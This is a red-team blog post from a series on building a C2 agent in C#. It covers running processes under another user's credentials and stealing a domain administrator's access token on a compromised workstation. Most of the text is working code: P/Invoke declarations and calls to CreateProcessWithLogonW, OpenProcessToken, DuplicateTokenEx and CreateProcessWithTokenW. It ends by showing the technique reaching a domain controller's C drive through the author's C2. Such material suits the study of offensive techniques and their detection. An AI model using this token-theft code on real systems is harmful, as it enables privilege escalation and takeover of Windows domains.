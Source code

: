 ```yaml
---
title: Fork and Run Implementation in C# - User impersonation & Token Manipulation
author: Fropops
date: 2023-06-13 08:10:00 +0800
categories: [Developpement]
tags: [C#, C2, Red Team, Fork and Run, Injection, WinAPI, Command Execution]
---
```


# Introduction

In the previous article ([Process Creation](/posts/Fork-and-Run-CSharp-Process-Creation/)) of this [Fork And Run](/posts/Fork-and-Run-CSharp-Intro/) series, we saw how to create a new process using the Windows API and how to retrieve its output stream.

Before moving on to the injection part, let's stay a little longer in the realm of process creation for the duration of this article. Indeed, there is another widely used feature in C2: the ability to launch a process with the rights of another user.

In this article, we will explore the two main techniques used for this purpose:<br/>
The first option, if we have the credentials of another user, is to create the process in the context of that user.<br/>
The second option, if we have sufficient privileges on the target computer, allows us to duplicate the rights of another process.<br/>


# User Impersonation

We can use the Windows API to create a process by using the login and password of a user. To do this, we simply need to use the function CreateProcessWithLogonW instead of CreateProcessW. This function is available in the advanced functions DLL (advapi32.dll).

We need to add its definition to our project in order to invoke it:
```c#
[DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Unicode)]
public static extern bool CreateProcessWithLogonW(
	string lpUsername,
	string lpDomain,
	string lpPassword,
	uint dwLogonFlags,
	string lpApplicationName,
	string lpCommandLine,
	uint dwCreationFlags,
	IntPtr lpEnvironment,
	string lpCurrentDirectory,
	[In] ref STARTUPINFOEX lpStartupInfo,
	out PROCESS_INFORMATION lpProcessInformation);
```

We also need to add the associated flag:
```c#
[Flags]
public enum LOGON_FLAGS : uint
{
	LogonWithProfile = 0x00000001,
	LogonNetCredentialsOnly = 0x00000002,
}
```

In order to make it work, we also need to remove the following line : 
```c#
creationFlags |= PROCESS_CREATION_FLAGS.EXTENDED_STARTUPINFO_PRESENT;
```

We can then call it with the appropriate parameters:

```c#
if (!CreateProcessWithLogonW(userName, domain, password, LOGON_FLAGS.LogonWithProfile, null, cmd, creationFlags, IntPtr.Zero, null, ref startupInfoEx, out pInfo))
    throw new InvalidOperationException($"Error in CreateProcessWithLogonW : {Marshal.GetLastWin32Error()}");
```

Here we go !

![Process Creation Impersonated Execution](/assets/img/posts/ForkAndRun/exec-creation-impersonated.png)

# Token manipulation

In Windows processes, a token refers to an object that represents the security context of a user or a system. It contains information about the user's identity, privileges, and group memberships, which are used to determine the access rights and permissions for the process.

When a user logs in to a Windows system, a token is created that contains their security credentials. This token is then associated with every process that the user starts or runs. The token carries information such as the user's security identifier (SID), user privileges, group SIDs, authentication information, and other relevant security data.

If we have sufficient privileges on a system, we have access to all user processes and their tokens! 

Let's imagine the following scenario: we have compromised a workstation and gained system access. By studying the current processes, we notice that the domain administrator is logged into this machine:

![Process List on workstation](/assets/img/posts/ForkAndRun/steal-token-processlist.png)

If we manage to steal the token from one of the Administrator's processes and inject it into a process that we create, we should obtain the access rights of the domain administrator! Once again, the Windows API provides us with everything we need for this manipulation.

There are 2 functions in the API that allow us to steal a token from an existing process and duplicate it:

 ```c#
[DllImport("advapi32.dll")]
public static extern bool OpenProcessToken(
	IntPtr ProcessHandle,
	DesiredAccess DesiredAccess,
	out IntPtr TokenHandle);

[DllImport("advapi32.dll")]
public extern static bool DuplicateTokenEx(
	IntPtr hExistingToken,
	TokenAccess dwDesiredAccess,
	ref SECURITY_ATTRIBUTES lpTokenAttributes,
	SecurityImpersonationLevel ImpersonationLevel,
	TokenType TokenType,
	out IntPtr phNewToken);
```

We need to declare associated structures:

```c#
public enum DesiredAccess : uint
{
	STANDARD_RIGHTS_REQUIRED = 0x000F0000,
	STANDARD_RIGHTS_READ = 0x00020000,
	TOKEN_ASSIGN_PRIMARY = 0x0001,
	TOKEN_DUPLICATE = 0x0002,
	TOKEN_IMPERSONATE = 0x0004,
	TOKEN_QUERY = 0x0008,
	TOKEN_QUERY_SOURCE = 0x0010,
	TOKEN_ADJUST_PRIVILEGES = 0x0020,
	TOKEN_ADJUST_GROUPS = 0x0040,
	TOKEN_ADJUST_DEFAULT = 0x0080,
	TOKEN_ADJUST_SESSIONID = 0x0100,
	TOKEN_READ = (STANDARD_RIGHTS_READ | TOKEN_QUERY),

	TOKEN_ALL_ACCESS = (STANDARD_RIGHTS_REQUIRED | TOKEN_ASSIGN_PRIMARY |
	TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY | TOKEN_QUERY_SOURCE |
	TOKEN_ADJUST_PRIVILEGES | TOKEN_ADJUST_GROUPS | TOKEN_ADJUST_DEFAULT |
	TOKEN_ADJUST_SESSIONID)
}

public enum TokenAccess : uint
{
	TOKEN_ASSIGN_PRIMARY = 0x0001,
	TOKEN_DUPLICATE = 0x0002,
	TOKEN_IMPERSONATE = 0x0004,
	TOKEN_QUERY = 0x0008,
	TOKEN_QUERY_SOURCE = 0x0010,
	TOKEN_ADJUST_PRIVILEGES = 0x0020,
	TOKEN_ADJUST_GROUPS = 0x0040,
	TOKEN_ADJUST_DEFAULT = 0x0080,
	TOKEN_ADJUST_SESSIONID = 0x0100,
	TOKEN_ALL_ACCESS_P = 0x000F00FF,
	TOKEN_ALL_ACCESS = 0x000F01FF,
	TOKEN_READ = 0x00020008,
	TOKEN_WRITE = 0x000200E0,
	TOKEN_EXECUTE = 0x00020000
}

public enum TokenType
{
	TOKEN_PRIMARY = 1,
	TOKEN_IMPERSONATION
}

public enum SecurityImpersonationLevel
{
	SECURITY_ANONYMOUS,
	SECURITY_IDENTIFICATION,
	SECURITY_IMPERSONATION,
	SECURITY_DELEGATION
}
```

We can now retrieve the token using the process ID:

```c#
var processSrc = Process.GetProcessById(processId);

//open handle to token
if (!OpenProcessToken(processSrc.Handle, DesiredAccess.TOKEN_ALL_ACCESS, out hToken))
	throw new InvalidOperationException($"Failed to open process token");


//duplicate  token
var sa = new SECURITY_ATTRIBUTES();
if (!DuplicateTokenEx(hToken, TokenAccess.TOKEN_ALL_ACCESS, ref sa, SecurityImpersonationLevel.SECURITY_IMPERSONATION, TokenType.TOKEN_IMPERSONATION, out hTokenDup))
{
	CloseHandle(hToken);
	throw new InvalidOperationException($"Failed to duplicate token");
}
```

All that's left is to create a process by injecting the retrieved token. For this, we will use the CreateProcessWithTokenW function:

```c#
[DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Unicode)]
public static extern bool CreateProcessWithTokenW(
   IntPtr hToken,
   uint dwLogonFlags,
   string lpApplicationName,
   string lpCommandLine,
   uint dwCreationFlags,
   IntPtr lpEnvironment,
   string lpCurrentDirectory,
   [In] ref STARTUPINFOEX lpStartupInfo,
   out PROCESS_INFORMATION lpProcessInformation);
```

We replace the call to the CreateProcessW function with:

```c#
if (!CreateProcessWithTokenW(hTokenDup, (uint)LOGON_FlAGS.LogonWithProfile, null, cmd, (uint)creationFlags, IntPtr.Zero, null, ref startupInfoEx, out pInfo))
	throw new InvalidOperationException($"Error in CreateProcessWithTokenW : {Marshal.GetLastWin32Error()}");
```

And here is the result:

![Simple Process Execution - Steal Token](/assets/img/posts/ForkAndRun/steal-token-exec.png)

# What does it look likes in our C2?

When integrated in the agent and running on the workstation as local Administrator, we try to enumerate the content of the C drive on the Domain Controller :

![Token STealing Execution in C2 - Standard user](/assets/img/posts/ForkAndRun/exec-steal-token-c2-before.png)

Let's find a process running as Domain Administrator :

![Token STealing Execution in C2 - Processes](/assets/img/posts/ForkAndRun/exec-steal-token-c2-ps.png)

Here we go !

![Token STealing Execution in C2 - Domain Admin](/assets/img/posts/ForkAndRun/exec-steal-token-c2-after.png)


# Final Thoughts

This article demonstrates how to create a new process in C# using the Windows API and impersonate or steal the rights of another user.

You can find the complete source code of this article on [Github](https://github.com/Fropops/OffensiveWinAPI/blob/main/TestForBlog/StealToken.cs)